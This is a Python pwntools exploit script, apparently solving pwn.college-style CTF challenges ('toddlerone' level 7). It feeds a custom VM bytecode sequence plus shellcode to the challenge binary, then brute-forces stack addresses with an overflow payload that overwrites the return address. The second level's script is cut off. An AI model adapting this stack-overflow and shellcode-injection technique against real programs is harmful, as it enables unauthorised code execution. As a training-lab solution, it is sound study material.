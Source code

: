 ```python
from pwn import *
elf = ELF("/challenge/toddlerone_level7.1")
"""
op arg1(value) arg2(register)

SYS \x40            exit --0x10   read 0x08
IMM \x08     

a 1
b 8
c 4

"""
shellcode_file = open("/home/hacker/exploit/level7/shellcode.bin","rb")
shellcode = shellcode_file.read()

for stack_address in range(0x7ffffffde000, 0x7ffffffff000, 0x08):
    print(p64(stack_address))
    p = process("/challenge/toddlerone_level7.1")
    data_list = [
        b'\x08\x00\x01' # IMM a= \x00
        b'\x08\xFF\x08' # IMM b = \xFF
        b'\x08\x21\x04' # IMM c = \x21
        b'\x40\x01\x04' # read  返回值是a
        b'\x08\xFF\x02' # IMM i = \xFF
    ]

    p.recvuntil("Please input your yancode:")
    payload = data_list[0] + shellcode
    p.send(payload)
    p.recvuntil("[+] Starting interpreter loop! Good luck!\n")
    payload = b'\xFF'+ b'\xFF' * 0x18 + p64(stack_address + len(data_list[0]))
    p.send(payload)
    response = p.recvall().decode('utf-8')

    if "pwn" in response:
        print(response)
        exit()

exit()


elf = ELF("/challenge/toddlerone_level7.0")
"""
STM \x80         
SYS \x02            exit --0x10   read 0x04
IMM \x40     


a 4
b 8
c 1

"""
stack_address = 1
shellcode_file = open("/home/hacker/exploit/level7/shellcode.bin","rb")
shellcode = shellcode_file.read()

for stack_address in range(0x7ffffffde000, 0x7ffffffff000, 0x08):
    print(p64(stack_address))
    p = process("/challenge/toddlerone_level7.0")
    data_list = [
        b'\x04\x40\x00' # IMM a= \x00
```